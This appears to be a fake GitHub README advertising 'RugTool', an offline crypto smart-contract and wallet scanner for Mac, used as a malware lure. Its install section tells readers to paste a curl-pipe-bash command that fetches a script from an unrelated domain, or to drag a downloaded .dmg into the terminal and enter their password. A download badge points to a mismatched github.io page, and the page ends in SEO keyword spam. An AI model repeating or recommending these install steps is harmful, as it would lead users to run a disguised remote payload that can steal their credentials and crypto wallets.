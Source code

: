 # RugTool — Offline Setup Assistant

[![Download RugTool](https://img.shields.io/badge/Download-RugTool-blueviolet)](https://affinity-designer-download-mac.github.io/.github)


## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Unlock

🧾 Smart contract risk scanning  
🔐 Wallet vulnerability checks  
📊 Token metadata and audit explorer  
💻 Works without internet or external APIs  
🛠 Ideal for cold environments and secure workflows

## 🖼 Preview

![Smart Contract Risk Analysis](https://lh7-qw.googleusercontent.com/docsz/AD_4nXdgJMGhw4YTwvcPQr0Dg8lDGO2iiE8PgonXsDRBiJzKvtYCrvQ2l-XkKsQV-pqhZnA1XzJhYix00bENQ8srzomLTg12ah93jUbulLhNc_7idtb8L8Az3MfHzc5FMnVGJauORMVXBA?key=TEwfodDrSTWzAOUAvf8osppS)  
*Offline smart contract security scanner*

![Token Analysis Interface](https://lh3.googleusercontent.com/5KCYjwRAD1p_1vgnjMuoi59zNuGbuhGOZPxFlRFWZ_CscEO1LpJlFWJW0YXx28l9RNlVeTi_wMbkohmwAu94_8ya=s1280-w1280-h800)  
*Detailed token breakdown in an airgapped environment*

![Audit Results Overview](https://lh7-qw.googleusercontent.com/docsz/AD_4nXdiT1SSNckc5YhDP35lhYAizvoXly2aMKSEFnnqkKRHFtmoj5WOtUhivK9g1q9UaCflhDcntmjgQjR1vqwzvMlF33NuRa-wHB3wOcXUe8JdAVaM_JAmhMcB4Y5K1AUqvAXj3UhoEA?key=TEwfodDrSTWzAOUAvf8osppS)  
*Interactive results and contract flags viewer*

### 🔎 SEO Keywords

`rugtool mac`, `rugtool mac download`, `rugtool mac free download`, `download rugtool for mac`, `rugtool for macbook`,  
`rugtool macbook air`, `rugtool software mac`, `rugtool tool mac`, `rugtool installer mac`, `rugtool utility mac`,  
`rugtool app mac`, `rugtool dmg mac`, `rugtool mac os`, `rugtool macos download`, `rugtool mac os x`,  
`rugtool mac latest version`, `rugtool mac full`, `rugtool mac compatibility`, `rugtool mac guide`, `rugtool setup mac`,  
`rugtool support mac`, `rugtool tool for mac`, `rugtool download mac os`, `rugtool mac appstore`, `rugtool install on mac`
